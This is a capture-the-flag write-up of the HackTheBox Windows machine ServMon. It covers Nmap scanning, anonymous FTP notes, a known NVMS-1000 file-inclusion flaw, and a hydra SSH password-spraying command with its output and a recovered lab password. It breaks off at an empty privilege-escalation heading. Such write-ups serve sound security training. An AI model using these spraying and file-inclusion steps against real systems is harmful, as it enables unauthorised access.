









+++
date = '2025-07-08T12:02:55+01:00'
draft = false
title = 'HTB: ServMon'
categories = ["HackTheBox", "Writeups", "Windows", "Easy", "LFI", "FTP", "NSClient++", "Privilege Escalation", "Password Spraying", "Reverse Shell", "Enumeration", "Nmap"]
+++
<center></center>

An easy Windows box with multiple enumeration rabbit holes. Features NVMS-1000, FTP, locked SMB, and NSClient++. Foothold gained through FTP-disclosed credentials and NVMS-1000 LFI vulnerability that reveals password lists. Password spraying identifies valid credentials between two users. Local NSClient++ access with exposed passwords enables privilege escalation to root via reverse shell execution.

<!--more-->
## Enumeration

As always, I started with an Nmap scan to identify open ports and services running on the target machine. The results showed several interesting ports:

<center><font size=2>Nmap output (fairly long btw)</font></center>


```
# Nmap 7.97 scan initiated Tue Jul  8 17:59:16 2025 as: nmap -sV -sC -oA report -p- -vv --min-rate 10000 10.129.227.77
Increasing send delay for 10.129.227.77 from 0 to 5 due to 1806 out of 6019 dropped probes since last increase.
Increasing send delay for 10.129.227.77 from 5 to 10 due to 499 out of 1661 dropped probes since last increase.
Increasing send delay for 10.129.227.77 from 320 to 640 due to 324 out of 1079 dropped probes since last increase.
Increasing send delay for 10.129.227.77 from 640 to 1000 due to 602 out of 2006 dropped probes since last increase.
Warning: 10.129.227.77 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.77
Host is up, received reset ttl 127 (0.098s latency).
Scanned at 2025-07-08 17:59:17 BST for 167s
Not shown: 65512 closed tcp ports (reset)
PORT      STATE    SERVICE       REASON          VERSION
21/tcp    open     ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp    open     ssh           syn-ack ttl 127 OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLqFnd0LtYC3vPEYbWRZEOTBIpA++rGtx7C/R2/f2Nrro7eR3prZWUiZm0zoIEvjMl+ZFTe7UqziszU3tF8v8YeguZ5yGcWwkuJCCOROdiXt37INiwgFnRaiIGKg4hYzMcGrhQT/QVx53KZPNJHGuTl18yTlXFvQZjgPk1Bc/0JGw9C1Dx9abLs1zC03S4/sFepnECbfnTXzm28nNbd+VI3UUe5rjlnC4TrRLUMAtl8ybD2LA2919qGTT1HjUf8h73sGWdY9rrfMg4omua3ywkQOaoV/KWJZVQvChAYINM2D33wJJjngppp8aPgY/1RfVVXh/asAZJD49AhTU+1HSvBHO6K9/Bh6p0xWgVXhjuEd0KUyCwRqkvWAjxw5xrCCokjYcOEZ34fA+IkwPpK4oQE279/Y5p7niZyP4lFVl5cu0J9TfWUcavL44neyyNHNSJPOLSMHGgGs10GsfjqCdX0ggjhxc0RqWa9oZZtlVtsIV5WR6MyRsUPTV6N8NRDD8=
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA5iE0EIBy2ljOhQ42zqa843noU8K42IIHcRa9tFu5kUtlUcQ9CghqmRG7yrLjEBxJBMeZ3DRL3xEXH0K5rCRGY=
|   256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN6c7yYxNJoV/1Lp8AQeOGoJrtQ6rgTitX0ksHDoKjhn
80/tcp    open     http          syn-ack ttl 127
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings:
|   GetRequest, HTTPOptions, RTSPRequest:
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo:
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   X11Probe:
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-favicon: Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
|_http-title: Site doesn't have a title (text/html).
135/tcp   open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds? syn-ack ttl 127
5666/tcp  open     tcpwrapped    syn-ack ttl 127
6063/tcp  open     x11?          syn-ack ttl 127
6699/tcp  open     napster?      syn-ack ttl 127
8443/tcp  open     ssl/https-alt syn-ack ttl 127
| http-methods:
|_  Supported Methods: GET
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:     1d03 0c40 5b7a 0f6d d8c8 78e3 cba7 38b4
| SHA-1:   7083 bd82 b4b0 f9c0 cc9c 5019 2f9f 9291 4694 8334
| SHA-256: a6b0 6b86 2352 4446 d65a 36da ca4f f145 d752 e5e9 fcc9 42b8 70be e52c 0237 291b
| -----BEGIN CERTIFICATE-----
| MIICoTCCAYmgAwIBAgIBADANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDDAlsb2Nh
| bGhvc3QwHhcNMjAwMTE0MTMyNDIwWhcNMjEwMTEzMTMyNDIwWjAUMRIwEAYDVQQD
| DAlsb2NhbGhvc3QwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDXCoMi
| kUUWbCi0E1C/LfZFrm4UKCheesOFUAITOnrCvfkYmUR0o7v9wQ8yR5sQR8OIxfJN
| vOTE3C/YZjPE/XLFrLhBpb64X83rqzFRwX7bHVr+PZmHQR0qFRvrsWoQTKcjrElo
| R4WgF4AWkR8vQqsCADPuDGIsNb6PyXSru8/A/HJSt5ef8a3dcOCszlm2bP62qsa8
| XqumPHAKKwiu8k8N94qyXyVwOxbh1nPcATwede5z/KkpKBtpNfSFjrL+sLceQC5S
| wU8u06kPwgzrqTM4L8hyLbsgGcByOBeWLjPJOuR0L/a33yTL3lLFDx/RwGIln5s7
| BwX8AJUEl+6lRs1JAgMBAAEwDQYJKoZIhvcNAQEFBQADggEBAAjXGVBKBNUUVJ51
| b2f08SxINbWy4iDxomygRhT/auRNIypAT2muZ2//KBtUiUxaHZguCwUUzB/1jiED
| s/IDA6dWvImHWnOZGgIUsLo/242RsNgKUYYz8sxGeDKceh6F9RvyG3Sr0OyUrPHt
| sc2hPkgZ0jgf4igc6/3KLCffK5o85bLOQ4hCmJqI74aNenTMNnojk42NfBln2cvU
| vK13uXz0wU1PDgfyGrq8DL8A89zsmdW6QzBElnNKpqNdSj+5trHe7nYYM5m0rrAb
| H2nO4PdFbPGJpwRlH0BOm0kIY0az67VfOakdo1HiWXq5ZbhkRm27B2zO7/ZKfVIz
| XXrt6LA=
|_-----END CERTIFICATE-----
| fingerprint-strings:
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest:
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
|_ssl-date: TLS randomness does not represent time
15994/tcp filtered unknown       no-response
16666/tcp filtered vtp           no-response
34964/tcp filtered profinet-cm   no-response
43064/tcp filtered unknown       no-response
45731/tcp filtered unknown       no-response
49664/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
52482/tcp filtered unknown       no-response
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.97%I=7%D=7/8%Time=686D4E7C%P=arm-apple-darwin24.4.0%r(Ge
SF:tRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\nC
SF:ontent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n\
SF:xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.
SF:0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-t
SF:ransitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/xh
SF:tml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x20
SF:<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\x
SF:20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(HTTPOpti
SF:ons,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\nConten
SF:t-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n\xef\x
SF:bb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20
SF:Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-transi
SF:tional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/xhtml\"
SF:>\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x20<scri
SF:pt\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x20wind
SF:ow\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\x20</s
SF:cript>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(RTSPRequest,1
SF:B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\nContent-Len
SF:gth:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n\xef\xbb\xb
SF:f<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20Trans
SF:itional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-transitiona
SF:l\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/xhtml\">\r\n
SF:<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x20<script\x2
SF:0type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x20window\.l
SF:ocation\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\x20</script
SF:>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(X11Probe,6B,"HTTP/
SF:1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/html\r\nCont
SF:ent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.97%T=SSL%I=7%D=7/8%Time=686D4E82%P=arm-apple-darwin24.
SF:4.0%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocati
SF:on:\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0s\0e\0\0\0l\0\0\0\0\0\xe
SF:0\xe3\xce\xb3\xef\x01\0\x12\x02\x18\0\x1aC\n\x07workers\x12\n\n\x04jobs
SF:\x12\x02\x18\x0f\x12\x0f")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nConten
SF:t-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(FourOhFourRequest,3
SF:6,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20
SF:found")%r(RTSPRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n
SF:\r\nDocument\x20not\x20found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nCon
SF:tent-Length:\x2018\r\n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-07-08T17:01:50
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 38851/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 35935/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 35106/udp): CLEAN (Timeout)
|   Check 4 (port 34298/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: 0s

Read data files from: /opt/homebrew/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  8 18:02:04 2025 -- 1 IP address (1 host up) scanned in 167.42 seconds
```


The most interesting ports were:
- **21/tcp**: FTP service with anonymous login allowed.
- **22/tcp**: SSH service running OpenSSH for Windows.
- **80/tcp**: HTTP service redirecting to a login page.
- **135/tcp**: MSRPC service. (SMB)
- **139/tcp**: NetBIOS service. (SMB)
- **445/tcp**: Microsoft DS service. (SMB)
- **8443/tcp**: HTTPS

From here, I tried to start with the SMB service because it is a common entry point for Windows boxes. However, I found that the SMB service was locked down and required credentials to access. There was no guest access allowed whatsoever, not even to enumerate shares.
Moving on, I decided to check the FTP service using `mount_ftp`. Mounting the ftp service reveals:



Very interesting. We have a directory called Users, subfolders Nadine and Nathan. Reading the Confidential.txt file in the Nadine folder reveals:

```plaintext
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine%
```

Neat. Looking at the other file, Notes to do.txt, we see:

```plaintext
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint%
```

Not very useful for us yet, but it does give us some insight into the box's configuration and the users' activities. Also, since this is a CTF Box, the file tells us that NSClient++ is running on the box and will be relevant later.

Moving on, we inspect the NVMS-1000 service running on port 80. This service is a video surveillance management system. Accessing the web interface reveals a login page:


<center><font size=1>NVMS-1000 Login Page</font></center>

I didn't bother much with fuzzing this myself. Searching online, [I found that the NVMS-1000 service has a known LFI vulnerability](https://pentest-tools.com/vulnerabilities-exploits/tvt-nvms-1000-local-file-inclusion_2909). This vulnerability allows us to read files on the server by manipulating the HTTP request.

Demonstrating using `windows/win.ini` in Burpsuite:




## Gaining Foothold

Using the LFI vulnerability, I was able to read the `C:\Users\Nathan\Desktop\Passwords.txt` file, which contained the following:



<center><font size=2>Passwords.txt revealed in BurpSuite</font></center>

This file contains a bunch of password candidates, not specifying for which user. So I decided to try password spraying against the two users I had found so far: `Nadine` and `Nathan`.

Using hydra for ssh login bruteforcing:

```bash
hydra -L user.txt -t 4 -I -P pass.txt ssh://$target
```

Gave me:

```plaintext
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-08 19:01:38
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14 login tries (l:2/p:7), ~4 tries per task
[DATA] attacking ssh://10.129.227.77:22/
[22][ssh] host: 10.129.227.77   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-08 19:01:40
```

Neat! We now have credentials for the `Nadine` user. Logging in via `ssh` gave me command prompt access to the machine:



Great! Now we have a foothold on the machine. The next step is to escalate privileges to root, which is usually the most challenging part of the process.

## Privilege Escalation

